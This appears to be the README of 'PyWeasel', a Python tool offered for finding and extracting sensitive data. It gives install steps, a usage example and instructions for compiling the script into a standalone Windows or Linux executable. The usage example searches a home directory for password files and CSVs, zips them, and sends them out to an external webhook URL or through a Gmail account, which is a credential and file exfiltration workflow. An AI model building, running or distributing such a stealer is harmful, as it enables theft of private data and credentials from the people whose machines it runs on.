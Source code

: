 <p align="center">
  <img width="460" src="https://i.ibb.co/jy7QPYW/weasel-cartoon-119631-230.png">
</p>

# PyWeasel

PyWeasel is a Python software to help you to find and extract sensitive data.

## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install PyWeasel.

```bash
python -m pip install pip --upgrade --user
pip install --user pipenv
pipenv install
pipenv shell
```

## Usage

```
Example : /pyweasel.bin --url=https://your_workflow.m.pipedream.net --input-file=lin_list.txt --search_files=password.txt,csv --path=\"/home/user/\" --interactive=True --email="xxxx@gmail.com" --password="password" --zip=True')

--url
        Url parameter for http server
--input-file
        File with the list of files or extension to search
--search-files
        File extension to find ('txt') or filename to find ('secret.txt')
--contains-text
        Text contains in filename
--path
        Base directory to find files
--interactive
        Launch script interactive
--email
        Gmail email
--password
        Gmail password
--zip
        Zip files found in csv
```

## Compiling
To compile, first add nuitka when you are in `pipenv shell`

```bash
python -m pip install nuitka
```

After this, use command appropriate to your env.

### Windows
```bash
python -m nuitka --onefile --windows-onefile-tempdir pyweasel.py
```

### Linux
```bash
python -m nuitka --onefile pyweasel.py
```


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.